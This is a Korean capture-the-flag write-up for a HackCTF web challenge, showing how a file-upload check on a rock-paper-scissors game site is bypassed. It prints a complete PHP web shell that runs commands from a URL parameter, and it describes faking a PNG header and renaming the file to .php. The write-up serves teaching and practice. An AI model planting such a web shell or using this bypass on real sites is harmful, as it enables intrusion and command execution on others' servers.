 ```yaml
---
title: "HackCTF - WEB - 가위바위보"
date: 2020-04-05 21:04:76
tags: ["web", "HackCTF", "ctf"]
draft: false
---
```


# HackCTF - WEB - 가위바위보

일단 문제 사이트에 접속을 합니다.

![image-20191210202755946](image/HackCTF - WEB - 가위바위보/image-20191210202755946.png)

접속을 하면 간단한 가위바위보 게임을 즐길 수 있는 사이트가 하나 나오는데 여기서 오른쪽 위의 계정 설정으로 들어갑니다.!

![image-20191210202853478](image/HackCTF - WEB - 가위바위보/image-20191210202853478.png)

그러면 계정에 대해 프로필 이미지와 이름을 변경할 수 있는 것을 보이는데 파일 업로드가 가능 하다는 점에서 파일 업로드 취약점을 이용 해야 한다는 것을 알 수 있습니다. 일단 한번 간단한 웹쉘 코드를 짜고 업로드를 해봅니다.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

위와 같이 웹쉘을 제작 해서 파일을 업로드 해봅니다.!

webshell.php , webshell.png.php, webshell.php%00.png 등등 확장자를 변경하여 시도를 하였는데 아래와 같이 이미지 파일이 아니라는 경고를 내보내는 모습을 볼 수 있습니다.

![image-20191210203401282](image/HackCTF - WEB - 가위바위보/image-20191210203401282.png)

이번에는 파일 헤더에 PNG을 의미하는 헤더를 집어 넣음으로 한번 우회를 해봅니다.

![image-20191210203617292](image/HackCTF - WEB - 가위바위보/image-20191210203617292.png)

이제 수정한 파일을 업로드 해보면 정상적으로 업로드가 되는 모습을 알 수 있습니다.

![image-20191210203716410](image/HackCTF - WEB - 가위바위보/image-20191210203716410.png)

이때 파일을 열어보면 아래와 같이 이름으로 열리는 모습을 볼 수 있는데 이름을 .php의 확장자 이름으로 변경하여 다시 업로드 해봅니다.

![image-20191210203730274](image/HackCTF - WEB - 가위바위보/image-20191210203730274.png)

![image-20191210203840049](image/HackCTF - WEB - 가위바위보/image-20191210203840049.png)

이제 여기서 이미지의 주소를 새 창으로 띄어 보면 정상적으로 웹쉘이 실행된 모습을 볼 수 있는데 flag 파일을 찾아 출력 합니다.

![image-20191210204043068](image/HackCTF - WEB - 가위바위보/image-20191210204043068.png)
